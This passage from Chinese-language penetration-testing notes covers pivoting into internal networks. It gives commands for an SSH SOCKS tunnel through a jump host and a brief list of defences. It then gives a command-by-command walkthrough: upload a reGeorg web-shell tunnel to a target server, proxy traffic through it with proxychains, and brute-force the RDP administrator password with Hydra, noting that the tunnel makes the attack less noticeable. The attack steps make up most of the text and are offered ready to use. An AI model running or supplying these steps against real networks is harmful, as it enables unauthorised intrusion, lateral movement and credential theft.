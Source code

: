 动态转发
```bash
# 动态端口映射就建立一个SSH加密的SOCKS 4/5代理通道，任何支持SOCKS 4/5的程序都可以使用这个加密通道进行代理访问

#1. vps上执行
ssh -CfNg -D 7000(vps端口) root@192.168.1.11(跳板机器地址)

#2. 浏览器设置网络代理Socks 127.0.0.1:7000。通过浏览器访问内网的机器1.1.1.2的web资源
... ... 

```


防御思路
```bash
在系统中配置SSH远程管理白名单
在ACL中限制只有特定的IP地址才能连接SSH
以及设置系统完全使用带外管理等方法

如果没有足够的资源建立带外管理的网络结构，在内网中至少要限制SSH远程登录的地址和双向访问策略(从外部到内部:从内部到外部)
```


#### 2.HTTP/HTTPS隧道
常用工具：
- reGeorg(reDuh)的升级版，把内网服务器端口的数据通过HTTP/HTTPS隧道转发到本机。流量特征明显，容易被杀软查杀   [下载地址](https://github.com/sensepost/reGeorg)
- meterpreter
- tunna([下载地址](https://github.com/SECFORCE/Tunna.git))
- 等等

###### reGeorg 工具
支持很多种脚本

```bash
#1.先把脚本文件上传到目标服务器中，然后远程访问内网网站的某脚本文件
#2.在vps上使用reGeorgSocksProxy.py 脚本来连接
python reGeorgSocksProxy.py -u http://1.1.1.1.2/tunnel.aspx -p 9999  # 本机9999端口已经开始监听了

#3.配置ProxyChains，设置全局代理
vim /etc/proxychains.conf
dynamic_chain
socks4 127.0.0.1 9999 # 设置代理端口

#4.测试代理是否正常
proxyesolv www.baidu.com    

#5.使用proxychains打开应(通过隧道进行通信)
proxychains firefox

#6.就可以使用Hydra进行暴力破解rdp(使用http隧道，不会太明显)
hydra 1.1.1.2 rdp -l administrator -P /root/pass.txt

```
